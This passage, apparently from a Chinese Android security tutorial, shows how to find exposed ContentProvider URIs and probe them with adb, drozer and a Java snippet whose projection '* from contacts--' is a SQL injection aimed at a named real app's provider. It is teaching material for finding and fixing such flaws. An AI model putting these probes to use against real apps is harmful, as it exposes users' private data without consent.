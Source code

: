 *   反编译 apk 文件，在代码中查找 UriMatcher.addURI，并手动拼接 uri

![](https://bbs.pediy.com/upload/attach/202109/905443_6W34GAPGU7JFG7G.png)

 

如上，可以拼接出：

```
content://ddns.vuls.AccountProvider/account
content://ddns.vuls.AccountProvider/account/
content://ddns.vuls.AccountProvider/account/1
content://ddns.vuls.AccountProvider/account/aaa

```

*   使用 drozer 工具

```
执行命令 run app.provider.finduri ddns.android.vuls

```

#### [](#（3）方法使用)（3）方法使用

```
1.使用adb shell查询
例子：adb shell content query --uri 具体uri
2.使用drozer验证
例子：run app.provider.query "具体uri"
3.编写目标代码
例如：
private void getyouni(){
    int i = 0;
    ContentResolver contentresolver=getContentResolver();
    String[] projection={"* from contacts--"};
    Uri uri =Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");
    Cursor cursor=contentresolver.query(uri.projection,null,null,null);
    String text="";
    while(cursor.moveToNext()){
        text+=cursor.getString(cursor.getColumnIndex("display_name"))+"\n";
    }
    Log.i("TEST",text);
}

```

我们下面将结合这三种方法来对一些常见的案例进行漏洞挖掘介绍

### 2. 信息泄露漏洞

#### [](#（1）原理介绍)（1）原理介绍

```
content URI是一个标志provider中的数据的URI。Content URI中包含了整个provider的以符号表示的名字(它的authority)和指向一个表的名字(一个路径)。当你调用一个客户端的方法来操作一个，provider中的一个表，指向表的contentURI是参数之一，如果对ContentProvider的权限没有做好控制，就有可能导致恶意的程序通过这种方式读取APP的敏感数据。

```

